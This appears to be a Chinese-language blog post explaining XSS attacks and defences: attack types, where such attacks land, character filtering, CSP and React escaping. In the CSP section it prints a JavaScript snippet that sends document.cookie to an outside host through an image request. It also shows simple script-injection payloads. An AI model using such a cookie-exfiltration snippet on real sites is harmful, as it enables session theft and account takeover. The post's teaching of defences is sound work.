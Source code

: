 ```yaml
---
layout: post
title: "「Progress」转 addEventListener()与attachEvent()区别分析"
subtitle: " From CSDN"
author: "Yuzj"
header-img: "img/post-bg-web.jpg"
header-mask: 0.3
catalog: true
tags:
- A Little Progress
- JavaScript
---
```


# 今日讨论

你了解 XSS 攻击么 

# 结果

```
网络千万条，安全第一条。网安不规范，网站都完蛋!
```

作为前端工程师接触最多的漏洞我想就是 XSS 漏洞了，然鹅并不是所有的同学对其都有 一个清晰的认识。这篇文章将带领大家认清 XSS 攻击，以及对于 XSS 攻击该如何防范。 

## 什么是 XSS 攻击 

# XSS攻击那些事儿

​    2011年4月30日，人人站内信遭到XSS攻击。造成人ID，姓名，学校，手机号，QQ大约
​    2011年6月28日，新浪微博远程XSS攻击，微博用户中招后会自动向自己的粉丝发送含毒私信和微博，有人点击后会再次中毒，形成恶性循环

## 一，XSS攻击介绍

### 1.介绍

​    跨站脚本攻击（跨站点脚本），XSS攻击通常指的是通过利用网页开发时留下的漏洞，恶意攻击者往Web页面里插入恶意脚本代码，当用户浏览时，嵌入其中Web里面的脚本代码会被执行，从而达到恶意攻击用户的目的

### 2.危害

​    据近几岁年OWASP（OWASP是世界上最知名的Web安全与数据库安全研究组织）统计XSS占所有web攻击的22％，高居所有web威胁榜首

- 流量劫持
- 获取用户cookie信息，盗取账号
- 篡改，删除页面信息
- 配合CSRF攻击，实施进一步的攻击
- ······

## 二，XSS攻击类型

![屏幕快照 2020-01-20 下午11.56.28](/Users/yuzijun/Desktop/屏幕快照 2020-01-20 下午11.56.28.png)

### 1.存储型XSS

- 存储型XSS浏览即被触发

  ![XSS类型](/Users/yuzijun/Desktop/屏幕快照 2020-01-20 下午11.56.36.png)

  ### 2.反射型XSS

- 反射型XSS需要欺骗用户操作触发（知乎，京东已经做成转义，没有转义的情况下会被触发）

  # [![XSS类型](/Users/yuzijun/Desktop/屏幕快照 2020-01-20 下午11.56.44.png)

## 三，XSS攻击流程

### 1.寻找突破

- 留言系统

- 邮件系统

- 评论系统

- 富文本编辑器

  上面这些都是XSS攻击的“重灾区”，因为它们都有共同点：

  ![XSS重灾区](/Users/yuzijun/Desktop/屏幕快照 2020-01-20 下午11.56.50.png)

  ### 2.构造攻击代码

  ![XSS攻击代码](/Users/yuzijun/Desktop/屏幕快照 2020-01-20 下午11.56.56.png)

  ![XSS攻击代码](/Users/yuzijun/Desktop/屏幕快照 2020-01-20 下午11.57.02.png)

  ### 3.注入代码

- 验证攻击是否有效总结，XSS的整个流程大致如下：
  [![XSS攻击代码](/Users/yuzijun/Desktop/屏幕快照 2020-01-20 下午11.57.13.png)](http://www.keycode.me/2017/10/21/编程/XSS攻击那些事儿/xss_10.png)

  [![XSS攻击代码](/Users/yuzijun/Desktop/屏幕快照 2020-01-20 下午11.57.19.png)](http://www.keycode.me/2017/10/21/编程/XSS攻击那些事儿/xss_11.png)

## 四，XSS预防

### 1.特殊字符过滤

```
<script><script>
<style></style>
a，href | events
img，src | events
style=“width: expression(xxx)”
```

推荐[♡](http://jsxss.com/zh/index.html) xss npm模块[jsxss.com/zh/index.ht…](http://jsxss.com/zh/index.html)

```
import xss from ‘xss’;
const html = xss(‘<script>alert(“xss”)</script>’)
```

![屏幕快照 2020-01-20 下午11.57.25](/Users/yuzijun/Desktop/屏幕快照 2020-01-20 下午11.57.25.png)[![特殊字符过滤](https://user-gold-cdn.xitu.io/2017/11/19/15fd45533001a817?imageView2/0/w/1280/h/960/format/webp/ignore-error/1)](http://www.keycode.me/2017/10/21/编程/XSS攻击那些事儿/xss_12.png)

### 2. CSP

​    内容安全策略（Content Security Policy），实质上就是白名单制度，开发者明确告诉客户端，某些外部资源可以加载和执行，大大增强了网页的安全性。

- 客户端设置

  ```
  <meta http-equiv="Content-Security-Policy" content="default-src *.meituan.com  imeituan://* *.dianping.com 'self' 'unsafe-inline' ‘unsafe-eval' ">
  ```

- 服务器设置

  ```
  setHeader(‘Content-Security-Policy’, default-src *.meituan.com  imeituan://* *.dianping.com 'self' 'unsafe-inline' ‘unsafe-eval')
  ```

- CSP浏览器兼容性，安卓和IE支持不太理想的研究者的话可以在 [waimai.meituan.com](http://waimai.meituan.com/)和[ele.me](http://ele.me/)的控制台测试以下代码看看会发生什么
  [![CSP](/Users/yuzijun/Desktop/屏幕快照 2020-01-20 下午11.57.34.png)](http://www.keycode.me/2017/10/21/编程/XSS攻击那些事儿/xss_13.jpg)

  ```
  function sendCookie(){
   var img = document.createElement('img');
   img.src = 'https://keycode.me?cookie=' + document.cookie;
   document.body.appendChild(img);
   document.body.removeChild(img);
  }
  sendCookie();
  ```

并非预防了XSS，还是预防了XSS更深入的危害。CSP的具体介绍请戳[www.w3.org/TR/CSP1/](https://www.w3.org/TR/CSP1/)

### 3.XSS与反应

​    React官方文档是这么说的，JSX防止注入攻击

- 默认情况下，React DOM在呈现它们之前先转义JSX中嵌入的任何值。因此，它确保您永远不会注入未在应用程序中明确编写的任何内容。一切在呈现之前都会转换为字符串。这有助于防止XSS攻击。[facebook.github.io/react/docs/…](https://facebook.github.io/react/docs/introducing-jsx.html)

- 但事情也不是绝对的，在利用危险SetInnerHTML注入html时也要注意过滤特殊字符

  ```
  <div dangerouslySetInnerHTML={{__html: `<script>alert(‘XSS’)</script>`}} />
  ```